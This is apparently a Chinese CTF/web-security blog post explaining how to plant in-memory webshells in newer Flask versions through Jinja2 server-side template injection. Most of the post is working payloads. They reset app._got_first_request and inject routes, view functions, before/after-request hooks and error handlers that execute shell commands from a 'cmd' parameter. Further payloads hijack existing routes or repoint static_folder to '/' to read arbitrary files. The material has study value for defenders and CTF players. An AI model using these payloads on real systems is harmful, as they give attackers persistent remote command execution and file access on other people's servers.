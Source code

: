 ```yaml
---
title: Flask内存马详解
toc: true
categories:
  - 技术
  - ctf
  - web
date: 2025-05-07 21:10:12
tags:
---
```


本篇以jinja2 ssti视角研究Flask高版本内存马

## 拿request对象

```py
__import__("flask").request.args.get("cmd") #直接从flask拿
ur1_for.__globals__['request']				#从flask的一些函数的__globals__里拿
request_ctx.request.args.get  				#request_ctx的属性
```

## app.view_functions相关

因为高版本给add_url_rule加了装饰器`@setupmethod`，这个装饰器会先调用`app._check_setup_finished`, 所以得将`app._got_first_request`改为False

```python
    def _check_setup_finished(self, f_name: str) -> None:
        if self._got_first_request:
            raise AssertionError(
                f"The setup method '{f_name}' can no longer be called"
                " on the application. It has already handled its first"
                " request, any changes will not be applied"
                " consistently.\n"
                "Make sure all imports, decorators, functions, etc."
                " needed to set up the application are done before"
                " running it."
            )
```

#### 装饰器

```python
{{lipsum.__globals__['__builtins__']['exec']('app._got_first_request=False
@app.get("/dd")#其他的应该都可以
def cmd():
    return __import__("os").popen(__import__("flask").request.args.get("cmd")).read()',{'app':url_for.__globals__['current_app']})}}
```

```python
{{lipsum.__globals__['__builtins__']['exec']('app._got_first_request=False
def cmd():
    return __import__("os").popen(__import__("flask").request.args.get("cmd")).read()
app.get("/dd")(cmd)',{'app':url_for.__globals__['current_app']})}}
```

#### add_url_rule

```python
{{lipsum.__globals__['__builtins__']['exec']('app._got_first_request=False
def cmd():
    return __import__("os").popen("whoami").read()'
app.add_url_rule("/ss","cmd",cmd)#使用lambda表达式也ok
,{'app':url_for.__globals__['current_app']})}}
```

#### add_url_rule最后还是调用`url_map.add(rule_obj)`然后`view_functions[endpoint] = view_func`

这里就不用改`app._got_first_request=False`啦

```py
url_for.__globals__['__builtins__']['exec'](
    "app.url_map.add(app.url_rule_class('/shell', methods=['GET'], endpoint='shell'));app.view_functions.update({'shell': lambda:__import__('os').popen('whoami').read()})",#或者app.view_functions["shell"]=lambda:__import__('os').popen('whoami').read()
    {'app':url_for.__globals__['current_app']}
)
```

endpoint装饰器会`view_functions[endpoint] = view_func`，但是有@setupmethod

```py
url_for.__globals__['__builtins__']['exec']("app._got_first_request=False
app.url_map.add(app.url_rule_class('/shell', methods=['GET'], endpoint='shell'))
@app.endpoint('shell')
def f():
	return __import__('os').popen('whoami').read()",
    {'app':url_for.__globals__['current_app']}
)
```

反正老多了比如`_method_route("PATCH", rule, options)`

#### 劫持路由函数

比如存在

@app.route("/")
		def index():

```py
url_for.__globals__['__builtins__']['exec'](
    "app.view_functions['index'] = lambda:__import__('os').popen('whoami').read()",#这里的index是你的路由装饰函数
    {'app':url_for.__globals__['current_app']}
)
```

## app.before_request_funcs相关

这函数也装饰了@setupmethod

```py
lipsum.__globals__['__builtins__']['exec']("app._got_first_request=False
@app.before_request
def f():
	return __import__('os').popen('whoami').read()",
{'app':url_for.__globals__['current_app']})
```

向before_request_funcs字典里加

```py
app.before_request_funcs.setdefault(None, []).append(lambda: __import__('os').popen('whoami').read())
```

## app.after_request_funcs相关

函数只能返回response对象

```py
{{lipsum.__globals__['__builtins__']['exec']("app._got_first_request=False
@app.after_request
def f(c):
	return __import__('flask').Response(__import__('os').popen('whoami').read())",#app.make_response可以直接生成Response，好多函数都能返回Response，但是不太好构造
{'app':url_for.__globals__['current_app']})}}
```

向after_request_funcs字典里加

```python
app.after_request_funcs.setdefault(None, []).append(lambda x:__import__('flask').Response(__import__('os').popen('whoami').read()))
```

## app.error_handler_spec相关

```
lipsum.__globals__['__builtins__']['exec']("app._got_first_request=False
@app.errorhandler(404)
def error_handler(d):
    return __import__('os').popen('whoami').read()",
{'app':url_for.__globals__['current_app']})
```

```py
lipsum.__globals__['__builtins__']['exec']("app._got_first_request=False
app.register_error_handler(404,lambda e:__import__('os').popen('whoami').read())",
{'app':url_for.__globals__['current_app']})
```

```py
{{url_for.__globals__['__builtins__']['exec']("global exc_class;global code;exc_class,code=app._get_exc_class_and_code(404);app.error_handler_spec[None][code][exc_class] = lambda error:__import__('os').popen(request.args.get('cmd')).read()", {'request':url_for.__globals__['request'],'app':get_flashed_messages.__globals__['current_app']})}}
```

## 其他

app.teardown_request （无回显呀,感觉没啥意义）

```py
lipsum.__globals__['__builtins__']['exec']("app._got_first_request=False
@app.teardown_request
def f(x):
	return __import__('os').popen('whoami').read()",
{'app':url_for.__globals__['current_app']})
```

重写某些每次请求都会执行的函数，这样会比较危险，而且不容易有回显

## 回显相关

可以对Response类做更改

```py
Response.default_status=__import__('os').popen('whoami').read()
Response.default_mimetype=__import__('os').popen('whoami').read()
```

然后就是对Response对象的更改（有些只做了类型标准，没有初始化的属性就只能改响应对象啦）,但是每次请求都创建新响应对象，所以我觉得这个作用不大，本质上跟生成响应没啥区别

## 题外

改static_folder读任意文件

```py
app.static_url_path="/static";app.static_folder="/"   #然后static/app.py读源码
```

先写这么多，后面再更？
